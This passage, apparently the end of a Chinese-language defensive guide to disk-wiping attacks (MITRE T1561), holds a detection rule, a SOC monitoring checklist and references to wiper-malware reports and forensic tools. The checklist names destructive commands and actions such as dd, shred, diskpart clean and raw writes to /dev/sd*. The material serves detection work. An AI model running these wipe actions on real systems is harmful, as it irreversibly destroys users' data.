| dd/shred 命令执行 | 非运维上下文中执行 dd/shred 命令 | Sysmon EID 1 / auditd | 高危 |

### SOC 监控清单

- [ ] 监控所有 raw disk 设备的写入访问
- [ ] 监控 dd、shred、diskpart clean 命令执行
- [ ] 监控 1MB 块连续顺序写入模式
- [ ] 监控磁盘吞吐量异常（基线 5x）
- [ ] 监控 Linux auditd 中对 `/dev/sd*` 的访问
- [ ] 监控 ATA Secure Erase / Sanitize 命令
- [ ] 监控 O_DIRECT 模式的块设备打开

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1561.001 Disk Content Wipe](https://attack.mitre.org/techniques/T1561/001/)
- [MITRE ATT&CK - T1561 Disk Wipe](https://attack.mitre.org/techniques/T1561/)
- [MITRE ATT&CK - Impact Tactic TA0040](https://attack.mitre.org/tactics/TA0040/)

### 📰 安全报告（真实攻击）

- [Mandiant - AcidRain 分析报告](https://www.mandiant.com/resources/blog/acidrain-rainfall-russia-ukraine) - Viasat 卫星擦除攻击深度分析
- [ESET - HermeticWiper 分析](https://www.welivesecurity.com/2022/03/01/isaacwiper-hermeticwizard-wiper-malware-ukraine/) - 乌克兰擦除攻击系列
- [Cisco Talos - NotPetya 技术分析](https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html) - NotPetya 伪勒索擦除器
- [Symantec - Shamoon 攻击报告](https://www.symantec.com/security-center/writeup/2017-111415-3147-99) - 沙特阿美擦除攻击
- [FBI - Sony Pictures Investigation](https://www.fbi.gov/news/pressrel/press-releases/fbi-attributes-sony-attack-to-north-korea) - Sony 擦除攻击归因

### 🔧 工具与资源（动手试试）

- [Sysmon - 系统活动监控](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Volatility - 内存取证](https://www.volatilityfoundation.org/)
- [Autopsy - 磁盘取证](https://www.autopsy.com/)
- [TestDisk - 分区恢复](https://www.cgsecurity.org/wiki/TestDisk)
- [auditd - Linux 审计](https://linux.die.net/man/8/auditd)

### 📚 学习资料（深入了解）

- [NIST SP 800-34 - 应急恢复指南](https://csrc.nist.gov/publications/detail/sp/800-34/rev-1/final)
- [CISA - 不可变备份最佳实践](https://www.cisa.gov/)
- [SANS - 数字取证与事件响应](https://www.sans.org/curriculum/digital-forensics)
- [MITRE D3FEND 知识库](https://d3fend.mitre.org/)
